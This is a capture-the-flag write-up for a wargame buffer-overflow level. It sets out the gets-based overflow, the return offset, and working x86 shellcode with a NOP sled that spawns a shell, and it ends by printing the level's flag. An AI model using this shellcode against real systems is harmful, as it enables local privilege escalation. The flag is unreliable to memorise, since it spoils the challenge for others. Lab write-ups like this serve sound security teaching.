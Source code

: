 # behemoth level2 Solution

first we can see the challenge is based on buffer overflow, because the binary uses get.

let's use our script to find what is the position of the ret-address... we've found it's 71.
then, we will generate shellcode using the [shellcode.py](./general/shellcode.py) script

now we will load the shellcode into env variable:
```
export SHELLCODE=$(echo -e "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x6a\x31\x58\xcd\x80\x89\xc3\x89\xd9\x6a\x46\x58\xcd\x80\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80")
```
we need to find the address of the env variable, using the [get_address.c](./general/get_address.c). notice to compile it with the `-m32` flag, for example: `gcc -m32 get_address.c -o get_address`

after finding the address of the env variable, in our case: `0xffffd511`, we need to insert it to the script that solves the challenge [level2.py](./scripts/level2.py)


**Flag:** ***`IxPJbQtH8q`*** 
